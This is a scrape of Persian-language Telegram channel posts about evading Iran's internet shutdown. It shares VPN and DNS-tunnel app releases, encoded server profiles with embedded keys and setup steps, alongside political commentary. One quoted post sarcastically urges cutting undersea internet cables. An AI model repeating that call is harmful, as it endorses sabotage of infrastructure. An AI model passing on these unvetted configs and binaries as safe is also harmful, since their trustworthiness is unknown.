متاسفانه محدودیت ها بشدت افزایش پیدا کرده به فکرتون هستیم دنبال روش برای اتصال شما عزیزان هستیم ، طبق چیزایی که دارم میبینم فایروال با بستن پروتکل ICMP و اجازه فقط به ترافیک TCP (سایت‌های مجاز) مانند گیت هاب و ... در حال پیاده‌سازی سیستم وایت‌لیست و مسدود کردن روش‌های تانل هست.

## blackRay — post 10967

@blackRay - 🌱.npvt

## blackRay — post 10964

@blackRay - 🌱.npvt

## blackRay — post 10958

@blackRay - 🌱.npvt

## blackRay — post 10957

  

📷 Photo

## blackRay — post 10956

  <a href="https://t.me/blackRay/10956" target="_blank">📎 Download file</a>

Password: @blackRay
#موقت ایرانسل ، پیشگامان تست کنید
منطقه ای هست اگه اتصالتون پایدار هست تست کنید ، صبرکنید تو تلگرام ، پینگ نمیده
❌.
ریکشن یادتون نره 
🫀

✉️ @blackRay

## blackRay — post 10954

@blackRay - test.npvt

## ConfigWireguard — post 31683

نسخه جدید MHRV-RS
MHRV-RS v1.9.23
📱 mhrv-rs-android-arm64-v8a-v1.9.23.apk 18.6MB
📱 mhrv-rs-android-armeabi-v7a-v1.9.23.apk 16.2MB
📱 mhrv-rs-android-universal-v1.9.23.apk 41.3MB
💻 mhrv-rs-windows-amd64.zip 7.5MB
@ConfigWireguard

## ConfigWireguard — post 31682

  

IRCF | اینترنت آزاد برای همه (Twitter/X)

اپ متن‌باز و رایگان TunnelX برای زمانی ساخته شده که کاربر نمیخواد تمام ترافیک در سیستم‌عامل ویندوز از VPN عبور کنه. با این برنامه میشه فقط برنامه‌هایی مثل مرورگر، تلگرام، ابزارهای توسعه یا برنامه‌های مشخص دیگه رو وارد تانل کرد و بقیه ترافیک سیستم رو روی اینترنت عادی نگه داشت.
http://github.com/MaxiFan/TunnelX/releases/latest
📥 لینک دانلود داخلی
💻 TunnelX-v1.2.23-standalone-compressed.exe 126.6 MB

## ConfigWireguard — post 31681

  <a href="telegram/content/ConfigWireguard_31681_1778607666.mp4" target="_blank">🎬 Download video</a>

آموژش نسخه جدید Whitedns 📲✨
🎬 amozesh whitedns.mp4 7.7MB

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده 🚀

✅ حالت Full VPN کامل‌تر و پایدارتر شده 🔒

✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود 🌐

✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید 🚫

✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده ✅

✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند ⚡️

✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود 🎯

✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است ⚠️

✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید 💾

✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده 📂

✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید 🔄
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده ↩️

✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود 📋

✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده 📄

@whitedns

## ConfigWireguard — post 31680

نسخه جدید whitedns 1.2.0
تمرکز اصلی این نسخه روی بهبودهای داخلی VPN در خود WhiteDNS بوده است. هدف این بود که اتصال کامل‌تر، پایدارتر و مستقل‌تر شود تا کاربران برای باز شدن سایت‌ها و اپ‌ها دیگر نیازی به NekoBox، NVPN یا راه‌حل‌های مشابه نداشته باشند.

در این نسخه مسیر DNS و ترافیک داخل خود WhiteDNS بهتر مدیریت می‌شود، بنابراین تجربه اتصال ساده‌تر شده و کاربر می‌تواند مستقیماً از داخل اپ وصل شود.

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده
✅ حالت Full VPN کامل‌تر و پایدارتر شده
✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود
✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید
✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده
✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند
✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود
✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است
✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید
✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده
✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده
✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود
✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده
✅ ظاهر صفحه اتصال و دکمه Connect/Stop مرتب‌تر و جمع‌وجورتر شده

https://github.com/iampedii/WhiteDNS
WhiteDNS

## ConfigWireguard — post 31677

  <a href="https://t.me/ConfigWireguard/31677" target="_blank">📎 Download file</a>

لینک دانلود داخلی
White dns 1.2.0

📱 WhiteDNS-1.2.0-arm64-v8a.apk 5.1MB
📱 WhiteDNS-1.2.0-armeabi-v7a.apk 4.9MB
📱 WhiteDNS-1.2.0-universal.apk 16.3MB

## ConfigWireguard — post 31676

سلام خدمت همگی دوستان

🔴 11 سرور اختصاصی جدید و بهینه برای اپلیکیشن WhiteDNS

stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidi53aGl0ZWRucy5zaG9wIiwic2VydmVyIjp7ImRvbWFpbiI6InYud2hpdGVkbnMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiYjA3ZGMzNTczNjBkNmU2ODk2NTA5MTM2ZDcwOTc4OTciLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEyLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEyLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjAwOWM1MTRiMmE2NDNlZDQwY2JkN2NjNjE5Mzg5YjBmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEwLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEwLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjFlY2Q1ZmRmZTM1MWE5MzEzY2VhMzlmZTFiOWM1OWRkIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjkud2hpdGVkbnMuc2hvcCIsInNlcnZlciI6eyJkb21haW4iOiJ2OS53aGl0ZWRucy5zaG9wIiwiZW5jcnlwdGlvbl9rZXkiOiJhMmYzMzQ4YmZhMDIxNzA2Mzk5NzBmMmQ2M2YxMDNkYyIsImVuY3J5cHRpb25fbWV0aG9kIjoxfX19
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjExLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjExLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjRjMTY2OTMyNmNkYmU4OThjYWIwOTY1YWNlMzAxMGMwIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEzLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEzLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6ImUyOTE4ODcwY2U4OGYwNTU0N2ZiZmJhOTlhZWU0ZWM1IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE0LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE0LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjliODY3MmEzNTJkMDQwNDg5ZDk2YmU5ZGY5N2VkOTY2IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE1LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE1LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjlhYTY4ZTdlOWE3YzIyZDkxZDhmNDY2ZDY0YTM1ZGZmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE2LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE2LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjU5Mjg0NWNhMzhmMTk0NjEzODNkMDU3MzNjMzMyMTRjIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE3LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE3LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjU3NjU1MDM1NGE3MzA5NTMwYjdmYTI1MTUyZGM2NzJmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE4LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE4LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6ImQwNTM4YTNkNTQ1YTc4MzBiOGJiMmViMGMzNzQ4ZTk1IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0

لینک اپش
https://t.me/ConfigWireguard/31673?single
لیست dns
https://ctext.ir/4kxn63
#Servers
@WhiteDNS

## ConfigWireguard — post 31675

⚠️ به هیچ عنوان اشتراک شکن نخرید
▪️برای کسایی که از قبل اشتراک شکن دارن خواستن فقط تست کنن

قرمساقا یهو میبندن ، باز می‌کنن یسری بخرن ملت میخرن میبندنش ،صاحب شکن میگن یه ادم قالتاقیه

https://raw.githubusercontent.com/IR-NETLIFY/NETLIFY/refs/heads/main/IR_NETLIFY_SUB_new.txt

این ساب رو داخل hiddify اد کنید
برید داخل setting بخش dns
اونجا outbound server resolver اینو بذارید
udp://178.22.122.101
یبار داخل اپ شکن اکانت که دارید وصل بشید بعد برید داخل hiddify استارت بزنید

🚫 بازم میگن به هیچ عنوان نخرید شاید یکی دو ساعه بسته بشن باز فقط کسی که داره بزنه
@ConfigWireguard

## ConfigWireguard — post 31674

کانفیگ اختصاصی Slip Net 🇫🇮

نصب SlipNet بدون وی پی ان

وقتی برنامه نصب شد:
کانفیگ زیر رو کپی کنید
برید داخل برنامه SlipNet
روی بعلاوه + و بعد import رو بزن
نکته : در تنظیمات برنامه گزینه VPN MTU
روی Custom با عدد 512 بزارید
سپس compression  رو روشن
و Max channel روی 10 بزارید
دیگه دست ب هیچی نزنید.
وقتی کانفیگ رو روشن میکنید
حدود یک دقیقه صبر کنید.
اگر در حال استفاده قطع شد یک دقیقه بمونید اگر نه کانفیگ رو خاموش و روشن کنید
slipnet-enc://Afp2dlSxrhBqVSc2/xGJmE+yEeCYLs5hISUDbwE0uLVRaSe/vSZHcAPDhE1Ec2c0dkarAPFMArUcEKaaN9CRVFyM8AqgGAewTjD/ess47p5TF7qfh4NCEQmyZuHKR/bj40SUYolj7Ix3v0IiTsWJ5i5trOompZhPnOMLXjqw74HFNP78HNpqR1hvVDk0wWPIjlLAA29X2Raxo14dc01bmGyntlEnUlyw5Bmsf2WJCAS8lRnXKZSCRG05Q+kO6Lka+KVP7/2ksHIJhZrbpihF0cnryLmcQsbK1gemDlJzK/5CoAPCsKpr1DZzw2uEtPnw/TMd46phTCKsEfMwelnTWfzrgrGbrf/93/+7ZOIEBS5hUme11SBQ7K/EelDYe653tXep7ex9ixXxcPS265hQLSzRrtF8ecUQf+Q2xjvW0/RrhK6Hz9y7+euE65m+ZBEP6XCb02x526rrxvdzrXh60v/FZEjMzGldu/OwIZeK82PWXZ/wuathwo+2/vu1aDenu5cJyAoiimgvxt2wNiNZqC/7DN+s/AB9ZnT6VbykwFndssgZoynWechTk/zC6R2gploI9QxfcMJ/xLuwnVeAtGwxic/JRwlkXz4WVfv3FVtMSy+Gry4YCE0WGPTbWm7FxHOTiA==

slipnet-enc://Afp2dlSxrhBqVSc2/xGJmE+yEeCYLs5hISUDbwE0uLVRaSe/vSZHcAPDhE1Ec2c0dkarAPFMArUcEKaaN9CRVFyM8AqgGAewTjD/ess47p5TF7qfh4NCEQmyZuHKR/bj40SUYolj7Ix3v0IiTsWJ5i5trOompZhPnOMLXjqw74HFNP78HNpqR1hvVDk0wWPIjlLAA29X2Raxo14dc01bmGyntlEnUlyw5Bmsf2WJCAS8lRnXKZSCRG05Q+kO6Lka+KVP7/2ksHIJhZrbpihF0cnryLmcQsbK1gemDlJzK/5CoAPCsKpr1DZzw2uEtPnw/TMd46phTCKsEfMwelnTWfzrgrGbrf/93/+7ZOIEBS5hUme11SBQ7K/EelDYe653tXep7ex9ixXxcPS265hQLSzRrtF8ecUQf+Q2xjvW0/RrhK6Hz9y7+euE65m+ZBEP6XCb02x526rrxvdzrXh60v/FZEjMzGldu/OwIZeK82PWXZ/wuathwo+2/vu1aDenu5cJyAoiimgvxt2wNiNZqC/7DN+s/AB9ZnT6VbykwFndssgZoynWechTk/zC6R2gploI9QxfcMJ/xLuwnVeAtGwxic/JRwlkXz4WVfv3FVtMSy+Gry4YCE0WGPTbWm7FxHOTiA==

## ConfigWireguard — post 31671

  <a href="https://t.me/ConfigWireguard/31671" target="_blank">📎 Download file</a>

لینک داخلی

📱 WhiteDNS-1.0.0-universal.apk 16.2MB

## ConfigWireguard — post 31670

لینک داخلی
V2rayNg 2.1.7
📱 v2rayNG_2.1.7_arm64-v8a.apk 26.8MB
📱 v2rayNG_2.1.7_armeabi-v7a.apk 27.1MB
📱 v2rayNG_2.1.7_universal.apk 61.9MB

V2rayN 7.21.2
💻 v2rayN-windows-64.zip 150.7 MB
💻 v2rayN-windows-arm64.zip 140.5 MB
@ConfigWireguard

## ConfigWireguard — post 31668

  <a href="https://t.me/ConfigWireguard/31668" target="_blank">📎 Download file</a>

✅ thefeed-android-v0.17.5-arm64-v8a.apk

نسخه جدید TheFeed (v0.17.5) 🚀

🟧 تغیرات بخش اصلی:

🔸 رفع مشکل دکمه "دیگر نمایش نده" در پاپ آپ اپدیت
🔸 رفع مشکل اشتباه ذخیره شدن اسم بعضی فایل ها در اندروید (اسم فایل های npv درست ذخیره نمیشد)
🔸 دیگه نسخه اندروید روی پورت تکراری میاد بالا تا لوکال استوریج پاک نشه (اینجوری عکس های که دانلود کردید هم نیاز به دانلود مجدد ندارن و همینکه کانال رو باز کنید عکس‌هایی که قبلا دانلود شدن رو نشون میده)
🔸 اعلان نسخه جدید و دکمه دانلود نسخه جدید رو واسه نسخه IOS برداشتم

بخش teleMirror تغییر زیادی نداشته (یکم باگ فیکس کوچیک داشته)

کانال کانفیگ برای برنامه:
@thefeedconfig

لینک دانلود نسخه جدید برای تمام سیستم‌عامل‌ها از داخل ایران (با گیتهاب):

https://github.com/sartoopjj/thefeed-files/archive/refs/heads/main.zip 📥
@networkti

## ConfigWireguard — post 31667

یه ویدئو گذاشتم و استقبال اینقدر زیاد بود که بر داشتم (: دلیلش این بود که می تونه موجب بسته شدنش بشه یکهو هزار تا فورک و اجرا کردن کد اسپیس. من معمولا به همین خاطر خیلی مستقیم اینجا روشی رو معرفی نمی کنم که ظاهرا استراتژی معقولی بوده. حالا یه فکری می کنم که به کسانی که نرسیده خرد خرد برسه.

و عمیقا به امید روزی که اینهمه آدم معطل این نباشیم که چطوری باید به اینترنتی برسیم که تو دنیای معقول، هر کس از خواب بیدار می شه بی دردسر بهش دسترسی داره.

## ConfigWireguard — post 31663

  

نسخه ۳ از اپ متن‌باز و رایگان TeleMirror برای "دریافت آخرین مطالب کانال‌های تلگرام در شرایط محدودیت شدید اینترنت" برای ویندوز، لینوکس و مک منتشر شد.

در این نسخه نمایش پست‌ها بهینه‌تر شده و مشکلات مربوط به کش تا حد زیادی برطرف شده، بخش تنظیمات به برنامه اضافه شده و امکان بازگشت به تنظیمات پیشفرض فراهم اومده. لیست کانال‌های پیشفرض افزایش پیدا کرده و علاوه بر نسخه Lite، یک حالت Normal اضافه شده که تلاش می‌کنه در صورت امکان تصاویر فیلترشده رو هم نمایش بده.

این برنامه فیلترشکن نیست و بر پایه دسترسی‌های فعلی وایت‌لیست اینترنت عمل می‌کنه، بنابراین ممکنه روی برخی از اینترنت‌ها قابل استفاده نباشه.
👉 github.com/ircfspace/teleMirror/releases/latest

لینک دانلود داخلی
📥 tele-mirror-win-arm64.zip 134.5 MB

📥 tele-mirror-win-ia32.zip 117.4 MB

📥 tele-mirror-win-x64.zip 141.6 MB

📥 tele-mirror-linux-x64.tar.gz 112.9 MB

📥 tele-mirror-linux-arm64.tar.gz 113.0 MB

📥 tele-mirror-mac-arm64.zip 110.2 MB

📥 tele-mirror-mac-x64.zip 115.3 MB
@ircfspace

## ConfigWireguard — post 31662

𝕏 Diego Jr

## ConfigWireguard — post 31661

  

𝕏 Diego Jr

## ConfigWireguard — post 31660

WhiteDNS-Beta7-armeabi-v7a.apk

## ircfspace — post 2320

  

پس قوای سه‌گانه کشور در واقع ۴تان، که یکیشون به نام #قوه_عاقله نه توان قانون‌گذاری داره، نه زور اجرای قوانین رو، و نه در جایگاه قضاوته. مهم اینه که قوه عاقله قصه ما با #اینترنت_طبقاتی مخالفه و قراره نقش اپوزیسیون داخلی رو در این مضحکه بازی کنه!

© nimaclick

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2319

  

پای #اینترنت_پرو به اتحادیه صنف اغذیه‌فروشان و مواد غذایی باز شد و حالا با ارائه پروانه کسب و کارت ملی میتونن از #اینترنت_طبقاتی استفاده کنن!

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2318

  

اپ متن‌باز و رایگان TunnelX برای زمانی ساخته شده که کاربر نمیخواد تمام ترافیک در سیستم‌عامل ویندوز از VPN عبور کنه. با این برنامه میشه فقط برنامه‌هایی مثل مرورگر، تلگرام، ابزارهای توسعه یا برنامه‌های مشخص دیگه رو وارد تانل کرد و بقیه ترافیک سیستم رو روی اینترنت عادی نگه داشت.

👉 github.com/MaxiFan/TunnelX/releases/latest
💡 t.me/PersianGithubMirror/4816

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2316

  

اگر اینترنت غزه، اوکراین یا هرجایی که حمایت از آن برای حامی‌نماهای حقوق بشر "ویترین اخلاقی" داشته باشد فقط ۷ روز قطع میشد، دنیا را روی سرشان خراب می‌کردند؛ اما اینترنت ایران ۷۴ روز است عملاً قطع شده و آب از آب تکان نخورده است.

فکر می‌کنید اتفاق خاصی افتاده؟ خیر.
ضریب دسترسی واقعی به اینترنت آزاد در ایران به گواه نت‌بلاکس به حدود ۲ درصد رسیده؛ میلیون‌ها انسان نه ۷ روز، بلکه ۷۴ روز عملاً در یک زندان دیجیتال گروگان گرفته شده‌اند و همزمان که جمهوری اسلامی در پشت پرده به سرکوب، بازداشت و اعدام مشغول است، آشغالی به نام "اینترنت پرو" را به‌عنوان راه‌حل به مردم می‌فروشد، که عقیم‌سازی عمدی دسترسی آزاد به اطلاعات و نقض آشکار حقوق انسانی و حریم خصوصی شهروندان است.

ظاهراً برای جهان مدعی آزادی، فقط آن دسته از رنج‌هایی دیده می‌شوند که موضع‌گیری برایش هزینه‌ای نداشته باشد، یا چشم‌های مردمانش رنگی باشد.

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2315

  

در روز ۷۴م از قطع سراسری اینترنت هستیم.

وزیر قطع‌ارتباطات گفته "در تلاش برای برقراری اینترنت بین‌الملل در اسرع وقت هستیم".
نتیجه عملکرد و تلاش ۷۴ روز اخیر این فرد از خروجی عملکرد یه مترسک داخل مزرعه هم کمتر بوده و جالبه با اینکه از بی‌خاصیتی خودش آگاهه، حتی بصورت نمادین دست به استعفا نزده!

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2314

  

در ادامه روندی که نشان می‌دهد تصمیم‌گیری درباره اینترنت و سطح دسترسی کاربران عملاً از دولت خارج شده، وزیر بهداشت برای رفع محدودیت دسترسی به پایگاه علمی «پاب‌مد» مستقیماً به رئیس مرکز ملی فضای مجازی نامه نوشت؛ اقدامی که بار دیگر نقش کمرنگ وزارت ارتباطات در سیاست‌گذاری اینترنت را پررنگ کرده است. /شرق

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2312

  

اسکریپت AIO Downloader یه ابزار متن‌باز و کاربردی برای دانلود فایل و محتوا از سرویس‌هایی مثل یوتیوب، گیت‌هاب، اینستاگرام، ایکس، تلگرام، گوگل‌پلی، تیک‌تاک، پینترست، ساندکلود و ... هست، که فرایند دانلود رو از طریق GitHub Actions انجام میده.
این ابزار طوری طراحی شده که در شرایط محدودیت شدید اینترنت و وایت‌لیست فعلی بتونه بسیاری از فایل‌ها و لینک‌ها رو دریافت کنه، بدون اینکه نیاز باشه سیستم یا سرور شخصی برای دانلود داشته باشین.

با توجه به اینکه این پروژه به GitHub Actions متکیه، بهتره برای استفاده ازش از اکانت اصلی گیت‌هاب استفاده نکنین و ترجیحاً یک اکانت جداگانه بسازین.

👉 github.com/ProAlit/aio-downloader

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2311

  

#پیامرسان_بومی

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2310

  

دیگه رودربایستی رو کنار گذاشتن و بدون ثبت‌نام و بدون احرازهویت، بابت پیوستن به پویش جان‌فدا ازت تقدیر میکنن 😁
کی به کیه؛ اگر آمارش به ۳۰۰ میلیون برسه هم تعجب نمی‌کنم.

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2309

تا الان توی هیچ پستی نگفتم که به پروژه‌هام دونیت کنین، چون حس خوبی به مطرح کردنش نداشتم؛ ولی شرایط همینطور پیش بره احتمالا سر چهارراه نشسته باشم 😂

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2308

قبل از شروع جنگ و قطعی اینترنت درخواست فیبر نوری دادم و حالا اومدن نصب و فعالش کردن.
با تشکر از شاتل بابت سرویس خوبشون؛ در واقع قبل از نصب اینترنت نداشتم، ولی الان با سرعت خیلی بیشتری اینترنت ندارم.

© itsmralii

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2307

  

معاون رئیس‌جمهور از وزیر ارتباطات بابت هیچ و پوچ قدردانی میکنه، بعدش همون وزیر از رئیس‌جمهور قدردانی میکنه، بعدترش همین بدردنخورها دسته‌جمعی از مردم قدردانی میکنن؛ اما تهش می‌بینی ۷۳ روزه که اینترنت قطع هست!

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2306

  

اپ WhiteDNS یک کلاینت متن‌باز و رایگان برای اندرویده، که امکان اتصال از طریق DNS Tunnel رو با دو حالت Proxy و VPN فراهم می‌کنه. این برنامه با تکیه بر MasterDNS و StormDNS طراحی شده و میتونه بدون نیاز به تنظیمات پیچیده، ارتباط رو از طریق تانل DNS برقرار کنه.

👉 github.com/iampedii/WhiteDNS/releases/latest
💡 t.me/PersianGithubMirror/4637

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2304

  

هر روز که نت‌بلاکس عدد روزهای قطع سراسری اینترنت در ایران رو اعلام می‌کنه، یه عده میگن "خب شمردن که کاری نداره، خودمونم بلدیم".
ولی مسئله فقط شمردن نیست؛ مسئله اینه که نباید این قضیه عادی‌سازی و فراموش بشه. اگر فکر می‌کنیم راه مؤثرتری برای اثرگذاری وجود داره، خوبه؛ ولی سوال اینجاست که چرا تماشا می‌کنیم؟

۷۲ روز گذشته و هیچ اقدام جدی‌ای برای کمک جهت اتصال آزاد به اینترنت انجام نشده، کسب‌وکارها نابود شدن، آدم‌ها شغلشون رو از دست دادن و سفره خیلی از خانواده‌ها کوچیک‌تر شده. مردم برای یک اتصال معمولی باید میلیون‌ها تومان از جیب خودشون هزینه کنن و در عین حال بخش بزرگی از نهادها و جوامع حقوق بشری نسبت به تداوم قطع اینترنت، سرکوب، دستگیری‌ها و اعدام‌ها سکوت رو ترجیح میدن.

در فضایی که همه‌چیز خیلی سریع به حاشیه میره، استمرار در اطلاع‌رسانی خودش یک کار مهمه و همین گزارش‌های روزانه امثال نت‌بلاکس حداقل باعث میشه موضوع قطع اینترنت در ایران کامل از توجه‌ها خارج نشه!

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2303

این هفت کابل اینترنت جهانی در خلیج فارس رو اگه قطع کنید خیلی خوبه، اونا هم مثل ما اینترنت نداشته باشن، بلکه دکان‌های حقوق حشری صداشون برای اونا دربیاد و یه نگاهی هم اینور بندازن و دل ما هم خنک بشه!
قطع کنید.

© ehsan_369

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2302

  

تسنیم نوشته تنگه هرمز فقط مسیر نفت و کشتی نیست؛ بخش بزرگی از اینترنت و تبادلات مالی دنیا هم از کابل‌های زیردریا رد میشه، که از اونجا عبور می‌کنن. پیشنهاد داده ایران از این مسیر پول و کنترل بیشتری بگیره؛ یعنی برای عبور کابل‌ها مجوز و هزینه تعیین بشه، شرکت‌های بزرگی مثل متا و مایکروسافت مجبور بشن تحت قوانین ایران کار کنن و تعمیر کابل‌ها هم فقط دست شرکت‌های داخلی باشه.

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2301

  

نت‌بلاکس: قطع سراسری اینترنت در ایران وارد هفتادودومین روز خود شده و هیچ نشانه‌ای از بازگشت گسترده اینترنت دیده نمی‌شود.

🔗 ᴡᴇʙꜱɪᴛᴇ • ᴠᴘɴʜᴜʙ • ɢɪᴛʜᴜʙᴍɪʀʀᴏʀ
@ircfspace

## ircfspace — post 2300

  

